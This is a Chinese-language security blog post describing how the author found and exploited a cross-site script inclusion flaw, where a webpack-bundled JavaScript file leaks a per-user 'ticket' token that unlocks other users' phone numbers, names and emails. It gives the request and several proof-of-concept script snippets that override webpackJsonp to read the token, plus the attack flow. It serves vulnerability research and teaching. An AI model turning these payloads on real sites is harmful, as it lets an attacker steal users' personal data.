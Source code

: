 ```yaml
---
layout: post
author: Vulkey_Chen
title: "[XSSI]动态JS劫持用户信息"
date: 2020-01-08
music-id: 
permalink: /archives/2020-01-08/3
description: "[XSSI]动态JS劫持用户信息"
---
```


# 动态JS劫持用户信息

**Webpack+JSONP劫持**

作者：key

注：本文已对敏感信息脱敏化，如有雷同纯属巧合。

## 前言

在做测试的时候发现一个请求：

```http
POST /user/getUserInfo HTTP/1.1
Host: xxxxx
Cookie: xxxx

ticket=xxxxx
```

其对应返回的信息包含了我本身用户的敏感信息：手机号、姓名、邮箱...

通过BurpSuite的插件`Logger++`搜索发现该`ticket`值居然出现在了JS文件中：

![-w699](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-01-08/15782203133182.jpg)

## 确定漏洞

通过测试我发现以上所述请求中的`Cookie`为无效请求头，后端不对齐校验，但对`ticket`校验，也就说明此处的`ticket`代表了获取用户信息的关键参数，换种说法：**当你知道用户的`ticket`参数即可获取该用户信息**。

## 判断JS动静态

当我在`Logger++插件`搜索到`ticket值`存在JS文件内容时，我的第一想法就是这个JS文件为动态类型，其文件内容跟随用户凭证字段的变化而变化。

测试：删除Cookie字段，结果：`ticket`参数值消失，由此可以判断该JS内容为动态类型。

再尝试将测试账户A的Cookie字段内容替换为测试账户B的Cookie字段内容，结果：`ticket`参数值变为测试账户B用户的对应值，由此可以判断该JS文件路径是固定的，并不是动态路径。

## Webpack+JSONP劫持

已知JS文件路径为：`https://website/app.xxxxx.js`

查看其文件内容发现其被Webpack打包过：

![-w143](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-01-08/15782208726972.jpg)

那么我们想要劫持这个JS文件内容其实就可以使用JSONP的PoC代码（因为这段JS文件内容就是`自定义函数+传入参数`）：

```javascript
<script>
function webpackJsonp(data) {
	alert(data)
}
</script>
<script src="https://website/app.xxxxx.js"></script>
```

但这样得不到我们想要的`ticket`值，简单的看了下JS代码，这段JS代码内容的格式是这样的：

webpackJsonp 函数传入两个参数：第一个参数毫无用处，第二个参数传入的值包含了我们想要的`ticket`值。

那以上代码就可以这样修改：

```javascript
<script>
function webpackJsonp(data, data1) {
	alert(data1)
}
</script>
<script src="https://website/app.xxxxx.js"></script>
```

但我们还是没得到我们想要的信息：

![-w517](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-01-08/15782215229911.jpg)

因为第二段参数传入的值还需要进行解析，我发现这段值内容就是一段JSON对象，而对象的每个属性都在定义一个函数：

![-w411](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-01-08/15782216768669.jpg)

寻找`ticket`所在函数位置，发现其在`jbTV: function...`内，知道了所在函数位置，PoC代码只需要这样进行构建：

```javascript
<script>
function webpackJsonp(data, data1) {
	alert(data1['jbTV'])
}
</script>
<script src="https://website/app.xxxxx.js"></script>
```

访问，成功获取：

![-w1239](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-01-08/15782218407604.jpg)

后面只需要稍微的加个正则就可以了～

## 攻击方式

用户登录状态，访问该漏洞页面，触发即可获取到`ticket`值，将该值带入以上所列请求中即可越权获取用户信息

# 结尾

心细一点，漏洞就在眼前，
